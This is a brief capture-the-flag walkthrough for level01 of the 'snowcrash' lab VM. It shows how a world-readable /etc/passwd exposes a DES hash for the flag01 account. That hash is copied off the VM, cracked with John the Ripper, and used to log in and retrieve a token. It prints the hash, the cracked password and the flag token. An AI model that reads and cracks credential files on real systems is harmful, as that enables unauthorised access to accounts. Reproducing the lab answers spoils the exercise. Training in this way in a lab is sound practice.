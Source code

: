 ```sh
$> ls -l /etc/passwd
-rw-r--r-- 1 root root 2477 Mar  5  2016 /etc/passwd
```

We can read it


```sh
$> cat passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

Go to a Kali Linux VM and run the following command:

```sh
$> scp -P4242 level01@192.168.56.102:/etc/passwd .

$> ls passwd
passwd

$> john passwd
[...]
abcdefg          (flag01)
```

Back to snowcrash's VM:

```sh
$> su flag01
Password: abcdefg

$> getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```

